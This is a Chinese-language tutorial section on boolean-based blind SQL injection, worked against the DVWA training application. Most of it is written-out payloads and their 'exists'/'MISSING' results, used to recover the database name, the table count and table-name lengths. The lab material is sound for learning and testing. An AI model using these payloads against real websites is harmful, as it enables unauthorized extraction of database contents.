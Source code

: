 ### 盲注
#### 布尔盲注
- 概述：只会根据注入信息返回True或者False，没有之前的查询信息或报错信息
- 判断方法：
  - 不管输入框输入什么内容，页面上只会返回两种情况，真或假，说明存在SQL盲注
  ```
  只输入1' and 1 = 1 #   可以证明存在SQL注入
  只输入1' and 1 = 2 #   不可以证明存在SQL注入
  ```

- 操作方法：
```
猜解当前数据库名称的长度（二分法思维）

1' and length(database()) > 10; #  MISSING
1' and length(database()) > 5; #  MISSING
1' and length(database()) > 3; #  exists
1' and length(database()) = 4; #  exists

# 由此可判断出当前连接数据库名称的长度=4
```
```
判断数据库名称的字符组成元素
利用和ascii码的数值比较，来判断单个字符的具体值,ascii码共128个
 
1' and ascii(substr(database(),1,1)) > 64; #  exists
1' and ascii(substr(database(),1,1)) > 127; #  MISSING
···
1' and ascii(substr(database(),1,1)) = 100; #  exists

# 由此判断第一个字符的ascii码值为100，符号是'd'
# 以此类推，将后续的字符都测试出来，4次后可以得出'dvwa'的结果
```
```
爆表名，同样是先判断长度，后判断字符的ascii码数值

判断'dvwa'数据库中的表的个数

1' and (select count(table_name)>10 from information_schema.tables where table_schema = database()); #   
-- MISSING

1' and (select count(table_name)>5 from information_schema.tables where table_schema = database()); #   
-- MISSING

... 以此类推

1' and (select count(table_name)=2 from information_schema.tables where table_schema = database()); #   
-- exists

// 得出结果，数据库'dvwa'里共有2张表
```
```
猜解表名
猜解dvwa数据库中第一张表的名称字符长度

1' and (select length(table_name)>10 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select length(table_name)>5 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists
```